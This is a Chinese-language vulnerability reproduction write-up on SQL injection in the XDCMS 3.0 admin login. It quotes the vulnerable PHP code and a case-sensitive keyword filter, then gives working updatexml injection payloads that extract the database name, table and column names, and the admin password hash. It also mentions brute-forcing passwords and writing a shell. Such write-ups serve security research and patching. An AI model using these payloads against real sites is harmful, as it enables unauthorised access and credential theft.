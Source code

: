 # XDCMS 3.0 后台登录窗sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3280](https://www.zhihuifly.com/t/topic/3280)

# XDCMS 3.0 后台登录窗sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

XDCMS 3.0

## 三、复现过程

漏洞链

```
system/modules/xdcms/login.php
public function check(){

```
 $username = safe_html($_POST['username']);
	$password = safe_html($_POST['password']);
	$verifycode = safe_html($_POST['verifycode']);

	if(empty($username)||empty($password)){
		showmsg(C('user_pass_empty'),'-1');
	}

	if($verifycode!=$_SESSION['code']){
		showmsg(C('verifycode_error'),'-1');
	}

	$sql="select * from ".DB_PRE."admin where `username`='$username'";
	if($this-&gt;mysql-&gt;num_rows($sql)==0){
		showmsg(C('user_not_exist'),'-1');
	}

	$rs=$this-&gt;mysql-&gt;get_one($sql);
	$password=password($password,$rs['encrypt']);
	if($password!=$rs['password']){
		showmsg(C('password_error'),'-1');
	}

	if($rs['is_lock']==1){
		showmsg(C('user_lock'),'-1');
	}

	$logins=$rs["logins"]+1;
	$ip=safe_replace(safe_html(getip()));
	$this-&gt;mysql-&gt;db_update("admin","`last_ip`='".$ip."',`last_time`=".datetime().",`logins`=".$logins,"`username`='$username'");

	$_SESSION['admin']=$rs['username'];
	$_SESSION['admin_id']=$rs['id'];
	$_SESSION['groupid']=$rs['groupid'];
	unset($rs);
	showmsg(C("login_success"),"index.php?m=xdcms&amp;c=index");
} 
``` `safe_html()

function safe_html($str){

if(empty($str)){return;}

$str=preg_replace(’/select|insert | update | and | in | on | left | joins | delete |%|=|/*|*|../|./| union | from | where | group | into |load_file

|outfile/’,’’,$str);

return htmlspecialchars($str);

}` 
```

safe_html()使用preg_replace()时候，pattern未添加/i修饰符，导致过滤字符可通过大小写转换或双写进行绕过；

同时，htmlspecialchars()未添加参数，默认仅对双引号进行转义

**payload**

```
#爆库
username=admin%27+OR+UPDATExml(1,concat('~',(database())),0)--+&password=123&verifycode=3bdd&button=
#爆表名
username=admin%27+OR+UPDATExml(1,concat('~',(SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms')),0)--+&password=123&verifycode=3bdd&button=
//updatexml一次显示32位字符，需要偏转
username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms'),30,30)),0)--+&password=123&verifycode=3bdd&button=
#爆表名
username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(column_name)+frOm+information_scheMA.columns+whEre+table_name+like+'c_admin'),1,32)),0)--+&password=123&verifycode=3bdd&button=
#爆内容
username=admin%27+OR+UPDATExml(1,concat(0x7e,(selEct+password+From+c_admin)),0)--+&password=123&verifycode=3bdd&button= 
```

![image](img/d811cbbb18eadcd43fb9163e9586ef14.png)

虽然获取密码hash值，但cms并未直接通过MD5获得哈希值，且无法破解该哈希值；

通过SQL注入获取到账户encrypt，再使用密码字典，依次爆破来猜测明文密码；另外可通过数据库写shell，但此时`secure_file_priv`被禁用

```
function password($password, $encrypt='') {
	$pwd = array();
	$pwd['encrypt'] =  $encrypt ? $encrypt : get_random();
	$password_md5=md5(trim($password));
	$nums=strlen($password_md5) - strlen($pwd['encrypt']);//encrypt:lr24vx2
	$pwd['password'] = md5(substr_replace($password_md5,$pwd['encrypt'],$nums));
	return $encrypt ? $pwd['password'] : $pwd;
} 
```